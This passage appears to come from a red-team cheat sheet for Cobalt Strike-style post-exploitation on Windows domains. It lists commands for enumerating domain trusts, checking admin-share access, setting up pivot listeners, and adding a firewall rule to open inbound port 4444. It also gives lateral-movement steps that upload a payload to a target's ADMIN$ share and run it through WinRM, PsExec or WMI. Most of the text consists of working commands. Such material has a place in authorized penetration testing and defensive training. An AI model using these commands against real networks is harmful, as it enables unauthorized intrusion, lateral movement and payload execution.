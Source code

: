 ```powershell
 # Get domain trusts
 powershell Get-DomainTrust
```

### Lateral Movement

Testing access

```
ls \\<HOSTNAME>\c$
```

#### Pivot Listeners

To start a Pivot Listener on an existing Beacon, right-click it and select **Pivoting > Listener**. Once started, your selected port will be bound on that machine.

```
run netstat -anp tcp
```

things to keep in mind:

* If port 445 is closed on the target, you can't use SMB listeners.
* If the target firewall doesn't allow arbitrary ports inbound, you can't use TCP listeners.
* If the current machine doesn't allow arbitrary ports inbound, you can't use Pivot listeners. but if you have admin access on the target, you can change what ports are allowed.

To create FW rule on target:

```
netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
```

To remove FW rule

```
netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```

#### PS Remoting

```
jump winrm64 <HOSTNAME> <LISTENER>
```

#### PsExec

```
jump psexec64 <HOSTNAME> <LISTENER>
```

#### WMI

```
 cd \\<TARGET HOST>\ADMIN$
 upload <PATH TO PAYLOAD ON ATTACK COMPUTER>
 remote-exec wmi <TARGET HOST> <PATH TO PAYLOAD ON TARGET COMPUTER>

 link <TARGET HOST>
```
